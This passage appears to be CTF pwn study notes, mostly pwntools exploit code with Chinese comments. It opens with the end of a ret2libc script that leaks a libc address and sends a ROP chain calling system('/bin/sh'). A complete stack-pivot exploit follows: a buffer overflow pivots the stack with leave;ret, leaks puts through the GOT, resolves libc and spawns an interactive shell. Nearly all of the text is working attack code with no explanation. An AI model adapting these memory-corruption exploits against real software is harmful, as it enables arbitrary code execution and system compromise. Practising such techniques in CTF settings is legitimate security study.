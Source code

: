 ```python
# gdb.attach(io)

# pause()
io.sendline(payload1)
io.recvline()
write_call = u64(io.recv(6).ljust(8,b"\x00")) #接受6个数据，并按照8个一组进行填充，最后解包

print(hex(write_call))
#计算偏移和加载地址
iv = write_call - write_adr
sys_call = iv + system_adr
shell_call = shell_adr + iv
payload2 = b's'*136 + p64(pop_rdi) + p64(shell_call) + p64(sys_call)

io.recvuntil(b":")
io.sendline(payload2)
io.interactive()
```



## ORW

## stack_pivot

:star2:exp:

```
from pwn import *
import sgtlibc
context(os="linux",arch='amd64',log_level='debug')
elf=ELF("pwn")
io=process("./pwn")

read_adr = 0x4011FD
addr1 = 0x404858
payload1 = b's'*80 + p64(addr1) + p64(read_adr)
io.sendlineafter(b"do you know stack pivoting?",payload1)
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]
pop_rdi = 0x401283
leave_ret = 0x40121d
payload2 = p64(0x404808)+p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(read_adr)
payload2 = payload2.ljust(80,b'\x00') + p64(0x404808) + p64(leave_ret)
io.send(payload2)
puts_adr = u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
print("puts_adr -----> "+hex(puts_adr))
libc = sgtlibc.Searcher()
libc.add_condition("puts",puts_adr)
libc.dump(db_index=2)
system_adr = libc.get_address(sgtlibc.s_system)
shell_adr = libc.get_address(sgtlibc.s_binsh)
# gdb.attach(io)
# pause()
payload3 = p64(0) + p64(pop_rdi) + p64(shell_adr) + p64(system_adr)
payload3 = payload3.ljust(80,b"\x00") + p64(0x4047b8) + p64(leave_ret)
io.send(payload3)

io.interactive()
```
